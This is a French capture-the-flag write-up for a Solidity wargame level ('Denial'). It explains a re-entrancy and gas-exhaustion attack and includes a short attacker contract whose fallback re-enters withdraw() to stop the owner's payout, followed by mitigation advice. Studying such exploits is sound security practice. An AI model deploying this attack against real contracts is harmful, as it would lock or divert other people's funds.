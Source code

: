 ### Analyse

Le but de ce niveau est de faire en sorte que lors d'un appel à `withdraw()`, l'instruction `partner.call.value(amountToSend)("");` soit exécutée normalement, et que `owner.transfer(amountToSend);` ne soit pas exécutée, de cette manière `owner` ne recevra pas de part.

On peut voir que le smart contract utilise `call` pour réaliser le transfert sans vérification sur l'adresse du `partner`. On peut alors réaliser une Re-entrancy attack classique.

### Attaque

```javascript
contract Attack {
    Denial public object;
    
    constructor(address payable addr) public payable {
        object = Denial(addr);
    }
    
    function becomePartner() public {
        object.setWithdrawPartner(address(this));
    }
    
    function go() public payable {
        object.withdraw();
    }
    
    function() external payable {
        object.withdraw();
    }
}
```

> This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.
>
> If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.
>
> Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances  (such as multiple external calls at the end of a function) where issues  such as this can arise.



---

## 21 - Shop

---

> **TL;DR**
>
> Créer une fonction que retourne des valeurs différentes.
